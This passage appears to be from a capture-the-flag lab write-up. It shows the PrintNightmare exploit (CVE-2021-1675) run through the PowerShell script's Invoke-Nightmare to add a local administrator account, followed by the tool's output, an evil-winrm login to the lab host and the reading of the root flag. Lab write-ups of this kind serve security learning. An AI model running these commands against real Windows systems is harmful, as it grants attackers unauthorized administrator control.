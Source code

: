 ```
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare -NewUser "john" -NewPassword "SuperSecure"
```

Originally, I saw the `[!] failed to get current driver list` error message, but after resetting the box it worked:

```
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user  as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
```

Now, all we have to do is connect with `evil-winrm` as our newly created administrator `john` user: `evil-winrm -u john -p SuperSecure -i 10.10.11.106`. We can get the `root.txt` flag with `cat C:\Users\Administrator\Desktop\root.txt`.
